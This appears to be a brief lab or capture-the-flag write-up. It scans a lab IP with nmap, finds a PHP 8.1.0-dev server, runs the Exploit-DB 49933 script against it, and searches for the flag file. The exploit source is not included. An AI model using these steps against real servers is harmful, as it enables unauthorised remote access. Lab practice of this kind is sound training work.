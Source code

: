 nmap -p- -sV -n 10.10.204.129 -o nmap.txt  
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-04-11 12:22 EDT  
Nmap scan report for 10.10.204.129  
Host is up (0.17s latency).  
Not shown: 65534 closed tcp ports (reset)  
PORT   STATE SERVICE VERSION  
80/tcp open  http    PHP cli server 5.5 or later (PHP 8.1.0-dev)  

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .  
Nmap done: 1 IP address (1 host up) scanned in 1226.40 seconds  

it used php 8.1.0  
https://www.exploit-db.com/exploits/49933  

run the exploit  

python3 49933.py                                       
Enter the full host url:  
http://10.10.204.129/  

find / flag.txt
